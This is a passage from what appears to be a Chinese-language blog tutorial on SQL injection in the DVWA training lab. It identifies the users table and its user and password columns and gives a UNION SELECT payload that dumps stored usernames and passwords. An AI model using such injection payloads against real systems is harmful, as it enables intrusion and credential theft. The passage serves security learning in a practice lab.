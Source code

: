 ![在这里插入图片描述](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201112153150997.png)
4）查看用户名及密码

由以上查出

```sql
库名：dvwa
表名：users
字段：user  /   password
123
```

查询用户和密码

```sql
'union select user,password from dvwa.users -- '
1
```

![在这里插入图片描述](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201112153150882.png)
